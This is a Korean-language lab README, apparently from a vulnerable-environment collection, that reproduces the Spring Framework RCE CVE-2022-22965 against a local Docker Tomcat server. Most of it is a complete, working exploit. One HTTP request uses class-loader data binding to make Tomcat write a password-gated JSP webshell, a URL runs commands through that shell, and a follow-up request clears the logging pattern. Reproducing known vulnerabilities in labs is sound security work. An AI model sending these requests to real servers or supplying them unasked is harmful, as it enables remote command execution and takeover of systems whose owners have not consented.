

# Spring Framework RCE via Data Binding on JDK 9+ (CVE-2022-22965)

JDK 9+에서 실행되는 Spring MVC 또는 Spring WebFlux 응용 프로그램은 데이터 바인딩을 통해 원격 코드 실행(RCE)에 취약할 수 있습니다. 이 특정 공격을 사용하려면 응용 프로그램이 WAR 배포로 Tomcat에서 실행되어야 합니다. 응용 프로그램이 Spring Boot 실행 파일 jar, 즉 기본값으로 배포되면 이 공격에 취약하지 않습니다. 그러나 이 취약성의 특성은 일반적이며 이를 이용할 수 있는 다른 방법이 있을 수 있습니다.

References:

- <https://tanzu.vmware.com/security/cve-2022-22965>
- <https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/>

## 취약성 환경

Spring WebMVC 5.3.17을 사용하는 서버를 시작하려면 다음 명령을 실행합니다:

```
docker compose up -d
```

서버가 시작된 후 `http://your-ip:8080/?name=Bob&age=25`를 검색하면 예시 페이지가 나타납니다.

## 취약성 재현

Apache Tomcat에서 로깅 구성을 변경하려면 다음 요청을 보내고 로그를 JSP 파일로 씁니다:

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```


그런 다음 JSP 웹쉘을 사용하여 임의 명령을 성공적으로 실행할 수 있습니다:

```
http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id
```



JSP 웹셸을 크게 만들지 않으려면 `class.module.classLoader.resources.context.parent.pipeline.first.pattern`을 지워야 합니다. 모든 요청 로깅이 해당 파일에 기록되기 때문입니다. 속성을 지우려면 다음 요청을 보냅니다:

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```
